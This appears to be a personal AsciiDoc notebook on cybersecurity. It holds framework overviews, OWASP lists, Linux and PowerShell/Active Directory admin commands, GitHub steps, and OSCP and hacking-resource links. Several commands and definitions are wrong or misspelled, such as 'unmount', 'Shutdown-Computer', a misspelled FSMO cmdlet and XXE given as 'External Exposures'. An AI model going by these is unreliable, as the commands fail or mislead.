Identify:: involves determining your IT risks and securing the necessary budget and resources to defend your digital resources. Your decisions should be based on the contextualized threat intelligence you collect. In addition to assessing internal IT risk, this goal should include analyzing the security competence of third-party vendors and any customers with which you exchange data. It’s critical to identify those that represent an elevated risk to your organization’s systems and data. It’s also important to bring in threat intelligence on the risks your competitors face because you likely face similar threats.

Protect:: is about deploying the required security controls (technologies and processes) to defend your digital assets, and then validating that these controls align to the risks you identified. For example, controls should be applied to set up defenses against exploit kits, as well as undisclosed zero-day and embargoed vulnerabilities, as identified by your threat intelligence platform. You also need to safeguard against the exploitation of high-risk vulnerabilities in your technology stack.

Detect:: revolves around your ability to block attacks before they impact digital assets. Threat intelligence helps by enabling you to identify and research the evolution and trends of malware families with high risk to your organization. In addition to identifying the security patches to apply, you will also gain intelligence on which systems are most susceptible and which are being actively targeted and exploited.

Respond:: refers to how fast your security team reacts to breaches; even the strongest security postures do not offer a 100% guarantee that cyberattacks will not succeed. Threat intelligence assists in the response process by evaluating the data exposure and the digital asset damage your organization is facing. This can then be reported to all affected parties and stakeholders — not only for remediation teams, but also for non-technical personnel who may need to prepare for the impact on day-to-day operations and the potential impact on vendors, clients, and perhaps even the overall market in which you operate.

Recover:: is all about how quickly the damage inflicted upon the organization’s technology stack and surrounding ecosystem can be mitigated, including any and all operations that must be restored as the security incidents are being closed out. Threat intelligence helps pinpoint the specific measures the security team should take in order to quarantine infected systems and inoculate the malicious elements coursing through the environment. The ultimate goal in the case of a breach, of course, is to quickly and safely restore the digital assets back to fully functioning systems with all security measures intact.

Top two are proactive measures, and bottom three are reactive measures.

<<<
== Security Architecture

=== Network Architecture

=== Application Architecture

=== System Architecture

<<<
== Dev, Sec, Ops

Development, Operations, and Security operate as silos. 

*CiCd* or Continuous Integration and Continuous Delivery is key for *DevSecOps*

image::knowyourapplication.png[title="Know your application"]

Some activities to consider for DevSecOps:

* Threat Modeling
* Attack Surface Evaluation
* Static & dynamic code analysis
* Penetration Testing
* Security Code Reviews
* Fuzz Testing

Teams who are considering DevSecOps should think about:

* Frameworks & Tools
* Automating core security tasks
* Embedding securit controls and processes

Five principles for Securing DevOps

* Automate Security In
* Integration to fail quickly
* No false Alarm
* Build Security Champions
* Keep Operational Visibility



=== OWASP Top 10 App Sec Risks

. Injection
. Broken Authentication
. Sensitive Data Exposure
. XML External Exposures (XXE)
. Broken Access Control
. Security Misconfiguration
. Cross Site Scripting
. Insecure Deserialization
. Using component with known vulnerabilities
. Insufficient Logging/Monitoring

=== Real-Word Top 10 Attacks

. Direct Object Reference
. Forceful Browsing
. Null Byte Attack
. Command Injection
. Feature Abuse
. Evasion Techniques
. Subdomin Takeover
. Misconfiguration
. Cross Site Scription
. SQL Injection 

<<<
== Governance, Risk, & Compliance

A documented process must be followed to ensure compliance to security policy and to highlight risks that might be introduced when security policy requirements are not adhered to.  Some of the GRC functions are:

* Enterprise Risk Management
* IT Risk Management
* Integrated Risk Management
* Operational Risk Management
* Compliance
* Enterprise GRC Management
* Vendor/Third-Party Risk Management
* Business Continuity
* Financial Audit

=== Enterprise Risk Management

* Not necessarily covered by insurance
* Multi-dimensional assessment
* Analyzes material risks and how they relate
* Spans the entire organization ("holistic")
* Proactive & continuous
* Considers both upside and downside
* Focuses on business goals, adding value and more
* Embedded in culture and mindset 

<<<
== Kali Reference

. Add user and give root privs
.. login as root and the user

	useradd -m <username>

.. Assign a password to the user

	passwd <username>

.. Add a user to sudoers file

	usermod -a -G sudo <username>

.. Change user shell to bash

	chsh -s /bin/bash <username>

. Shrink partition
.. Login to your system as root and open a terminal window.  Lets assume the paritition is /dev/xxx/yyy and is currently 40G, and you want to reduce it to 30G

	df -k
	unmount /dev/xxx/yyy
	e2fsck -fy /dev/xxx/yyy
	resize2fs /dev/xxx/yyy 30G
	lvreduce -L 30G /dev/xxx/yyy
	resize2fs /dev/xxx/yyy
	mount /dev/xxx/yyy

. Expand partition

Lets assume the file system is /dev/xxx/yyy. Current size is 10G and you want to add another 10G
.. Show space in current Volume group, look for Free PE/Size and make note of it, in our case it

	vgdisplay

.. Extend the logical volume

	lvextend -L+10G /dev/xxx/yyy

.. Resize the filesystem

	resize2fs /dev/xxx/yyy

<<<
== Powershell Reference

. Powershell 7 , download and install it here: https://github.com/PowerShell
. Powershell books:
.. Windows Powershell Cookbook http://shop.oreilly.com/product/0636920024132.do
. Complete Powershell in one video-beginner to professional powershell scripting: https://www.youtube.com/watch?v=plqpmZruOYk
. Get-adobject: https://adamtheautomator.com/get-adobject/
. Good website: https://lazywinadmin.com/
. How to create and run a PowerShell script file on Windows 10: https://www.windowscentral.com/how-create-and-run-your-first-powershell-script-file-windows-10 
. Configure IP Address on a computer

	New-NetIPAddress -InterfaceAlias Ethernet -IPAddress 10.10.10.10 -PrefixLength 24 -DefaultGateway 10.10.10.1

. Configure DNS on a computer

	Set-DNSClientServerAddress -InterfaceAlias "Ethernet" -ServerAddress 172.16.0.10

. IP v6 - Current Status

	Get-NetAdapterBinding -ComponentID ‘ms_tcpip6’

. IP v6 - Disable 
	
	Get-NetAdapterBinding -ComponentID ‘ms_tcpip6’ | Disable-NetAdapterBinding -ComponentID ‘ms_tcpip6’ -PassThru

. Rename computer

	Rename-Computer <new name>

. Restart computer

	Restart-Computer

. Shutdown computer

	Shutdown-Computer

. Set log application, system, and security log files to 100MB and roll over after 21 days

	limit-eventlog -logname "application" -maximumsize 100MB -retentiondays 21 -overflowaction overwriteolder 
	limit-eventlog -logname "security" -maximumsize 100MB -retentiondays 21 -overflowaction overwriteolder 
	limit-eventlog -logname "system" -maximumsize 100MB -retentiondays 21 -overflowaction overwriteolder 

. Enable Remote Desktop

	set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0

. Add firewall rules to allow Remote Desktop traffic

	Enable-NetFirewallRule -DisplayGroup “Remote Desktop”

. Check for updates and install updates

	get-hotfix|grid-view
	Install-Module -Name PSWindowsUpdate
	Get-Package -Name PSWindowsUpdate
	Install-WindowsUpdate -MicrosoftUpdate -AcceptAll -AutoReboot

. Set Date & Timezone

	set-date "1/1/2020 10:10 PM"
	(get-WmiObject win32_timezone).caption
	TZUTIL /s "Eastern Standard Time"

. Add a first domain controller

	Install-windowsfeature -name AD-Domain-Services -IncludeManagementTools
	Get-Command -Module ADDSDeployment
	Create Root Domain: Install-ADDSForest -DomainName “corp.momco.com”

. Add DNS Primary Zone

	Add-DnsServerPrimaryZone -NetworkID 192.168.64.0/24 -ZoneFile “192.168.64.2.in-addr.arpa.dns”
	Add-DnsServerForwarder -IPAddress 8.8.8.8 -PassThru

. Confirm DNS is working

	Test-DnsServer -IPAddress 192.168.64.2 -ZoneName "corp.momco.com"

. Add computer to a domain

	Add-Computer -DomainName <domain name>

. Add a second domain controller 

	Add-WindowsFeature AD-Domain-Services
	Install-ADDSDomainController -InstallDns -Credential (Get-Credential "CORP\Administrator") -DomainName "corp.contoso.com"

. Locate FSMO Roles

	Get-ADForest DOMAINNAME | FT SchemaMaster
	Get-ADForest DOMAINNAME | FT DomainNamingMaster
	Get-ADDomain DOMAINNAME | FT PDCEmulator
	Get-ADDomain DOMAINNAME | FT InfrastructureMaster
	Get-ADDomain DOMAINNAME | FT RIDMaster

. Add FSMO Role to a new computer

	Move-ADDirectoryServerOperationMasterRols - Identity NEW-DC -OperationMasterRole RIDMaster,InfrastrcutureMaster,DomainNamingMaster -Force

. List all accounts where password is not set to expire

	Search-ADAccount -PasswordNeverExpires | out-gridview

. List all accounts not used in last 90 days & Export to CSV

	Import-Module ActiveDirectory
	Search-ADAccount –AccountInactive -TimeSpan 90.00:00:00 -UsersOnly | Select -Property Name,DistinguishedName,LastLogonDate |	Export-CSV "C:\\InactiveADUsers.csv" -NoTypeInformation -Encoding UTF8

. Create a VM

	New-VM -MemoryStartupBytes 2048MB -Name VMNAME -path "d:\folder" -VHDPath "d:\folder\name.vhdx"

. Assign VM Network

	Get-VM -Name VMNAME | Get-VMNetworkAdapter | Connect-VMNetworkAdapter -Swtichname 'SWITCHNAME'

. Checkpoint a VM

	Get-VM | Checkpoint-VM

. Ping alternate

	Test-NetConnection
	Test-NetConnection 8.8.8.8

. Traceroute alternative

	Test-NetConnection www.bing.com -traceroute

. Telnet to a port

	Test-NetConnection www.bing.com -Port 80
	Test-NetConnection smtp.com -Port 25

. View All services in a GUI

	Get-Service | Out-Gridview

. Service management

	Stop-Service <service name>
	Start-Service <service name>
	Restart-Service <service name>
	Set-Service <service name> <-Change Service properties

. Enable/Disable Firewall

	set-netfirewallprofile -profile domain,public,private -enabled true/false

. Add a firewall rule

	New-NetFirewallRule -DisplayName "Allow Inbound Port80" -Direction Inbound -LocalPort 80 -Protocol TCP -Action Allow
	New-NetFirewallRule -DisplayName "Block Outbound Port80" -Direction Outbound -LocalPort 80 -Protocol TCP -Action Block

. Password Reset

	$newpwd = ConvertTo-SecureString -String "P@ssw0rd" -AsPlainText -Force
	Set-ADAccountPassword ACCOUNTNAME -NewPassword $newpwd -Reset
	Set-ADAccountPassword ACCOUNTNAME -NewPassword $newpwd -Reset -PassThru | Set-ADuser -ChangePasswordAtlogon $True

. Install RSAT Tools:

	Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability -Online
	or
	ADD-WindowsFeature RSAT-Role-Tools

. Change color of error text:

	$host.PrivateData.ErrorForegroundcolor = 'green'

. Help for all commandlets with service in the name:  
	
	help *service*

. Update help with latest modifications from Microsoft:

	Update-Help

. Show all help about a commandlet:
	
	Help <cmdlet> -full

. Show online help about a commandlet:
	
	Help <cmdlet> -online

. To show a gui for a cmdlet:
	
	Show-command <cmdlet>

. Show event log settings:
	
	get-eventlog -list

. Show top ten biggest processes:

	Get-process| sort-object -property pm -descending | select-object -first 10

. Get all objects in a cmdlet:
	
	Get-service|get-member

. Show services that are running:
	
	Get-service| where-object -FilterScript { $_.Status -eq 'Running'}

. Gsv is alias for get-service
. ? Is alias for where
. Find out what cmdlet an alias is:

	Help gsv or get-alias gsv

. List all alias:

	Gal

. The Get-PSProvider cmdlet gets the Windows PowerShell providers in the current session. You can get a particular drive or all drives in the session. Windows PowerShell providers let you access a variety of data stores as though they were file system drives. The Get-PSDrive cmdlet gets the drives in the current session. You can get a particular drive or all drives in the session. This cmdlet gets the following types of drives:
.. Windows logical drives on the computer, including drives mapped to network shares.
.. Drives exposed by Windows PowerShell providers (such as the Certificate:, Function:, and Alias: drives) and the HKLM: and HKCU: drives that are exposed by the Windows PowerShell Registry provider.
.. Session-specified temporary drives and persistent mapped network drives that you create by using the New-PSDrive cmdlet.
Beginning in Windows PowerShell 3.0, the Persist parameter of the New-PSDrive cmdlet can create mapped network drives that are saved on the local computer and are available in other sessions. For more information, see New-PSDrive. Also, beginning in Windows PowerShell 3.0, when an external drive is connected to the computer, Windows PowerShell automatically adds a PSDrive to the file system that represents the new drive. You do not need to restart Windows PowerShell. Similarly, when an external drive is disconnected from the computer, Windows PowerShell automatically deletes the PSDrive that represents the removed drive.

. Show contents of a file:

	Get-content or gc

. List modules available:

	Get-module -List Available

. To import a module: 
	
	import-module <modulename>

. To list all commands available in a module: 
	
	get-command -module <modulename>

. Add roles & Features

	Install-WindowsFeature -IncludeAllSubfeature -IncludeManagementTools File-Services

. Install .Net Framework

	Install-WindowsFeature Net-Framework-Core -source d:\sources\sxs

. Repair trust relationship of a computer

	test-computersecurechannel -credential domain\admin -Repair

. To list all computers in AD:

	get-adcomputer -filter *|select -ExpandProperty name

. List services running on all computers in your domain:

	invoke-command -ComputerName (get-adcomputer -filter *|select -ExpandProperty name) -scriptblock { get-service }

. Implicit Remoting:

	Establish a session with remote computer: $session = New-PSSession -ComputerName ABCD
	Invoke-Command -Session $session -ScriptBlock { import-module activedirectory }
	Import-PSSession -Session $session -Module ActiveDirectory
	Close session: get-PSSession | remove-PSSession

. Invoke a powershell session on a remote computer:

	Enter-PSSession -ComputerName ABCD

. Invoke Troubleshooting pack:

	import-module troubleshootingpack
	get-troubleshootingpack c:\windows\diagnostics\system\Networking
	get-troubleshootingpack c:\windows\diagnostics\system\Networking| Invoke-TroubleshootingPack

. Replacement for ipconfig /all

	get-NetIPConfiguration

. Find out network adapter names and statistics

	get-NetAdapter
	get-NetAdapterStatistics

<<<
== Github Reference

=== Adding a new repository to github.com

* On the github.com page, click on 

image::github1.png[]
* Select "New Repository" 

image::github2.png[]
* Provide repository name in the provided field 

image::github3.png[]
* Click to create repository 

image::github4.png[] 
* Follow instructions on the page displayed on you local computer which has ssh access to github.

=== Creating a local folder on your computer

* Change Directory to the root folder where you want the GIT repository to be stored
* Clone the respository

	git clone <repository URL from git page>

=== What to do after renaming your github username?
After you have changed your github.com user name, you will have to relink all your local github repositories to the github on the web.  Here are the steps:

. Open GitCMD or GitBASH
. Change directory to the repository where you have cloned the respository from the web
. Check where does this repository points:

	git remote -v

image::github-repo-now.png[]
. Change to new github repository

	git remote set-url origin git@github.com:secprivrisk/CyberSecurity.git

. Confirm the change by issuing the command:

	git remote -v

image::github-repo-new.png[]

<<<
== Ethical Hacking References

=== By Mayur Parmar
Want resource for OSCP?
here is the material to clear OSCP.
All the best for your journey.
How to prepare for OSCP complete guide 

Below are 5 skills which you have to improve before registering for OSCP
> Learn basic of Computer Network, Web application, and Linux
> Learn Bash and Python scripting
> Enumeration is key in OSCP lab, I repeat Enumeration is key in OSCP Lab and in real world too
> Download vulnerable VM machines from vulnhub
> Buffer Overflow (BOF) exploitation

Below are the free reference before registration of OSCP 
> https://lnkd.in/fBcwnBF
> https://lnkd.in/fXtRZK5
> https://lnkd.in/fcHg29E
> https://lnkd.in/f2-wBQJ
> https://lnkd.in/fkFNATW

Below are the reference for Buffer overflow and exploit developmet for OSCP
> https://lnkd.in/fmmU_Uz
> https://lnkd.in/fZDh9Vd

For Bash Scripting 
> https://lnkd.in/fn2wpZ5

Transferring Files from Linux to Windows & post-exploitation
> https://lnkd.in/fSJ44Eb
> https://lnkd.in/fJUGq3s

Privilege Escalation:
> https://lnkd.in/f4jsZfa
> https://lnkd.in/fFAeE3g
> https://lnkd.in/fUx6HZQ
> https://lnkd.in/fDNJGHw
> https://lnkd.in/fqPJzMP
> https://lnkd.in/fixKjR6
> https://lnkd.in/f2Nz3_a
> https://lnkd.in/fpZcJT9


Some tips and tricks for OSCP Exam & write-ups.
https://lnkd.in/fWugM5F
https://lnkd.in/fs_dDJr
https://lnkd.in/fzh5M_V
https://lnkd.in/fV3m55b
https://lnkd.in/faWFaea
https://lnkd.in/fiFGmV9
https://lnkd.in/fShfYRe
https://lnkd.in/f9mKEgu
https://lnkd.in/fjuxWZ5
https://lnkd.in/ffett24
https://lnkd.in/fivVvaz
https://lnkd.in/f973szJ
https://lnkd.in/f8ec7z5



=== By Pethuraj M

Following references were posted on LinkedIn by https://www.pethuraj.in https://www.pethuraj.com 

• 𝗔𝘄𝗲𝘀𝗼𝗺𝗲 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀 𝗙𝗼𝗿 𝗟𝗲𝗮𝗿𝗻𝗶𝗻𝗴 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 & 𝗣𝗲𝗻𝘁𝗲𝘀𝘁𝗶𝗻𝗴
http://tiny.cc/s5Ig

• 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀-𝗳𝗼𝗿-𝗹𝗲𝗮𝗿𝗻𝗶𝗻𝗴-𝗛𝗮𝗰𝗸𝗶𝗻𝗴
http://tiny.cc/7OiG

• 𝗘𝘁𝗵𝗶𝗰𝗮𝗹 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 & 𝗖𝘆𝗯𝗲𝗿 𝘀𝗲𝗰𝘂𝗿𝗶𝘁𝘆 𝗕𝗶𝗯𝗹𝗲
http://tiny.cc/0wGg

• 𝗖𝘆𝗯𝗲𝗿 𝗦𝗲𝗰𝘂𝗿𝗶𝘁𝘆 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀
http://tiny.cc/m6Ig

• 𝗔𝘄𝗲𝘀𝗼𝗺𝗲 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀
http://tiny.cc/pqJg

• 𝗲𝘁𝗵𝗶𝗰𝗮𝗹-𝗵𝗮𝗰𝗸𝗶𝗻𝗴-𝗿𝗲𝗽𝗼𝘀𝗶𝘁𝗼𝗿𝘆
http://tiny.cc/IqYg

• 𝗙𝗿𝗲𝗲 𝗘𝘁𝗵𝗶𝗰𝗮𝗹 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 𝗲𝗕𝗼𝗼𝗸𝘀
http://tiny.cc/b6Rg


#cybersecurity #hackerone #bugcrowd #wapt #pentest #security #hacking #pentesting #bugbounty #owasp #burpsuite #ceh #oscp #ethicalhacking #infosec



== Terms Used
[horizontal]
ATT&CK:: Adversatial Tactics Techniques & Common Knowledge
APT:: Advanced Persistent Threat
CTF:: Capture The Flag
CTI:: Cyber Threat Intelligence
ICS:: Industrial Conrol Systems
IOC:: Indicators of Compromise
LLMNR:: Link Local Multicast Name Resolution
Med-jacking:: is a new kind of cybersecurity threat to health care systems. Medjacking involves hacking into medical devices using backdoors to access software on the device.
mDNS:: Multicast Domain Name System
OCG:: Organized Criminal groups
OSINT:: Open Source Inteligence Tools
PLC:: Programmagle Logic controller
Smishing:: Phishing through SMS
TTP:: Techniques, Tactics, Procedures
UEBA:: User Entity Behaviorial Analytics
Vishing:: Phishing through voice calls
WPAD:: Web Proxy Auto Discovery Protocol

<<<
[bibliography]
== References

. Writing Position Papers: http://www.studygs.net/wrtstr9.htm 
. Cover Page graphic: https://www.pinterest.com/pin/352758583290504850/ 
. What is Malware? https://www.avg.com/en/signal/what-is-malware



